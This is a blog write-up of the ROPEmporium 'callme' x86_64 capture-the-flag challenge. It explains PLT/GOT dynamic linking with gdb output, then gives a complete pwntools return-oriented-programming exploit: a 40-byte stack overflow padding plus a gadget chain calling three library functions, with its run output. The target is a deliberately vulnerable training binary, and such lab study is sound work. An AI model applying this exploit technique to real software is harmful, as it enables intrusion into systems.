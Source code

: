 ```yaml
---
layout: post
title: Week 7 - Callme ROPEmporium x86_64
tags: [year-of-hacking, CTF, writeup]
---
```

Alongside the target binary, we get a file called `libcallme.so`, and we get some instructions:
```
You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`
```

Looks like our target goal is to make this code run:
```C
callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
```

Also, running the `file` command, we can see that this isn't an executable, it's a shared library:
```
{21:23}~/ctf/ROPEmporium/callme ➭ file libcallme.so
libcallme.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=be0ff85ee2d8ff280e7bc612bb2a2709737e8881, not stripped
```

Loading up the binary into `gdb`, we can see all the function stubs using `info functions`:
```
0x00000000004006a8  _init
...
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
...
0x00000000004009b4  _fini
```

We can see what happens in one of the functions by using `disas callme_one`:
```
gef➤  disas callme_one
Dump of assembler code for function callme_one@plt:
   0x0000000000400720 <+0>:     jmp    QWORD PTR [rip+0x20091a]        # 0x601040 <callme_one@got.plt>   0x0000000000400726 <+6>:     push   0x5
   0x000000000040072b <+11>:    jmp    0x4006c0
End of assembler dump.
```

This doesn't look like a typical file! It looks likes it jumps to something called  `callme_one@got.plt`. Time to learn what `plt` and `got` are.

After some reading, I learned a few things. `PLT` stands for `Procedural Linkage Table`, and `GOT` stands for `Global Offset Table`, both being 2 data structures that work together to link functions in a binary. To my understanding, there exists a standard ABI (Application Binary Interface) of functions called `libc`, with the most popular implementation being `glibc` by the GNU project, which of course is packaged with the Linux kernel. These include `printf`, `malloc`, `fopen`, and `bind`. In order to run these functions, they need to be loaded into memory. However, because these basic functions are used in basically every program, it would waste a lot of memory to load every function for every program. 

The solution to this is the Global Offset Table (`got`) and Procedural Linkage Table (`plt`). At compile time, when the compiler reaches an external function, it will save the function stub in the PLT to be filled in dynamically by the linker. During execution, the program will call the function through the PLT. The function entry in the PLT will always be in the same place in memory, but the address it resolves to is not static, but will instead point to where that function is stored in the shared memory of the entire operating system. This means that every program will access the same piece of memory to execute a common function.

The Global Offset Table (`got`) solves a similar problem but for global variables. What I'm not exactly clear on is if that's for variables that are shared between programs. I've made a note to learn more about this later.

Let's solidify this by looking at a simple program:
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv) {
	printf("%s\n", "Hello world!");
	exit(0);
}
```

And compile it with
```
gcc test.c -o test
```

Let's load it into `gdb` and run `info functions`:
```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  exit@plt
...
0x0000000000001174  _fini
```

Though I called `printf`, it actually only calls `puts`. My best guess is that the compiler recognized that there was no variability in the content that it would have printed, so it optimized the program to use the less resource intensive `puts`.

Dropping a breakpoint at main with `b main` and advancing until the first call to the PLT, we can see the PLT in action:
```
→ 0x555555555162 <main+25>        call   0x555555555030 <puts@plt>
   ↳  0x555555555030 <puts@plt+0>     jmp    QWORD PTR [rip+0x2fca]
      0x555555555036 <puts@plt+6>     push   0x0
      0x55555555503b <puts@plt+11>    jmp    0x555555555020
      0x555555555040 <exit@plt+0>     jmp    QWORD PTR [rip+0x2fc2]
      0x555555555046 <exit@plt+6>     push   0x1
      0x55555555504b <exit@plt+11>    jmp    0x555555555020
```

It looks like it jumps to the `puts` PLT entry, which has the memory address `0x1030`, with `0x555555554000` being the base memory address. When we step into the function, we see it jumps around a bit before finally going to the actual code of the function:

```
→ 0x555555555030 <puts@plt+0>     jmp    QWORD PTR [rip+0x2fca]
...
→ 0x555555555026                  jmp    QWORD PTR [rip+0x2fcc]
...
→ 0x7ffff7fdd550 <_dl_runtime_resolve_xsavec+0> push   rbx
```

The address `0x7ffff7fdd550` is the start of the `puts` call that is outside of the bounds of the program, and instead the processor is running code from the instance of `puts` that is shared by all programs.

In the context of this program, it looks like the program uses the `libcallme.so` to provide the custom `callme_one`, `two`, and `three` functions. We can actually use `gdb` to load up the shared object:
```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000000690  _init
...
0x000000000000081a  callme_one
0x000000000000092b  callme_two
0x0000000000000a2d  callme_three
0x0000000000000b98  _fini
gef➤ disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:     push   rbp
   0x000000000000081b <+1>:     mov    rbp,rsp
   0x000000000000081e <+4>:     sub    rsp,0x30
   0x0000000000000822 <+8>:     mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:    mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:    mov    QWORD PTR [rbp-0x28],rdx
```

Now for the exploitation. Thankfully, `pwntools` is really really really smart, as I discovered in the [last time I did a ROPEmporium challenge](https://jake-mullins.github.io/year-of-hacking-0x4). The syntax for ROP in `pwntools` is really clean:

```python
#!/usr/bin/env python3
from pwn import *
  
binary = './callme'
elf = context.binary = ELF(binary, checksec=False)
  
gs = """
b *(callme_one)
b *(callme_two)
b *(callme_three)
c
"""
  
if args.GDB:
    context.terminal = ["tmux", "splitw", "-h", "-l", "120"]
    p = gdb.debug(binary, gdbscript=gs)
else:
    p = elf.process()
  
callme_one_addr = elf.symbols['plt.callme_one']
callme_two_addr = elf.symbols['plt.callme_two']
callme_three_addr = elf.symbols['plt.callme_three']

rop = ROP(binary)
rop.call(callme_one_addr, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])
rop.call(callme_two_addr, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])
rop.call(callme_three_addr, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])
print(rop.dump())
  
padding = b"A" * 40
payload = padding + rop.chain()
  
with open('payload.bin', 'wb') as f:
    f.write(payload)
  
p.recvuntil(b'> ').decode().rstrip()
p.sendline(payload)
print(p.recv().decode().rstrip())
print(p.recv().decode().rstrip())
  
# p.interactive()
```

Running this script yields the flag!:
```bash
{0:04}~/ctf/ROPEmporium/callme ➭ python3 attack.py
[+] Starting local process '/home/jakemull/ctf/ROPEmporium/callme/callme': pid 2179
[*] '/home/jakemull/ctf/ROPEmporium/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 17 cached gadgets for './callme'
0x0000:         0x40093c pop rdi; pop rsi; pop rdx; ret
0x0008: 0xdeadbeefdeadbeef [arg0] rdi = 16045690984833335023
0x0010: 0xcafebabecafebabe [arg1] rsi = 14627333968358193854
0x0018: 0xd00df00dd00df00d [arg2] rdx = 14991902676702064653
0x0020:         0x400720
0x0028:         0x40093c pop rdi; pop rsi; pop rdx; ret
0x0030: 0xdeadbeefdeadbeef [arg0] rdi = 16045690984833335023
0x0038: 0xcafebabecafebabe [arg1] rsi = 14627333968358193854
0x0040: 0xd00df00dd00df00d [arg2] rdx = 14991902676702064653
0x0048:         0x400740
0x0050:         0x40093c pop rdi; pop rsi; pop rdx; ret
0x0058: 0xdeadbeefdeadbeef [arg0] rdi = 16045690984833335023
0x0060: 0xcafebabecafebabe [arg1] rsi = 14627333968358193854
0x0068: 0xd00df00dd00df00d [arg2] rdx = 14991902676702064653
0x0070:         0x4006f0
Thank you!
[*] Process '/home/jakemull/ctf/ROPEmporium/callme/callme' stopped with exit code 0 (pid 2179)
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

This was my first foray into binary exploitation that involves a shared object. I'll probably continue with ROPEmporium.
